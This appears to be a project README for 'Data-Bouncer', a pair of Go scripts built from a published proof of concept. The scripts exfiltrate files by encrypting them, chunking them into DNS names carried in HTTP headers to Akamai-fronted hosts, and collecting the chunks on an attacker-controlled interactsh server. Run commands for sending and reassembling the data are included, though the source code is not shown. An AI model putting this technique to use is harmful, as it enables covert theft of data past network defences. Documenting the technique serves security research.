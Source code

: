 # Data-Bouncer

I came across this Proof of Concept outlined here in https://thecontractor.io/data-bouncing.
I took their ideas and wrote two Go scripts that can be used for demonstration purposes.

One that encrypts and bounces the data you want to exfiltrate and the other that reassembles and decrypts it.

You will need an OOB dns server under you're control for this to work and collect the data. Here I'm using https://github.com/projectdiscovery/interactsh

From my testing this should work on any url that touches Akamai.

### Bounce.go
This script reads your chosen domain names from domains.txt, first encrypts your chosen file using a password you provided, encodes the file into Base32 and finally splits it into 63 byte chunks and sends them as part of a domain name in an HTTP header.

Example:
```
go run bounce.go -f <filename.txt> -p <password> -u <UUID> -e <interact server url> -v
```

### Regenerate.go
This script reads the JSON output from your interactsh server, processes and reassembles the chunks and does the reverse by decoding, decrypting, and finally outputting the file.

Example:
```
go run regenerate.go -i <exported.json> -o <outputfile.txt> -p <password> -u <UUID> -v
```
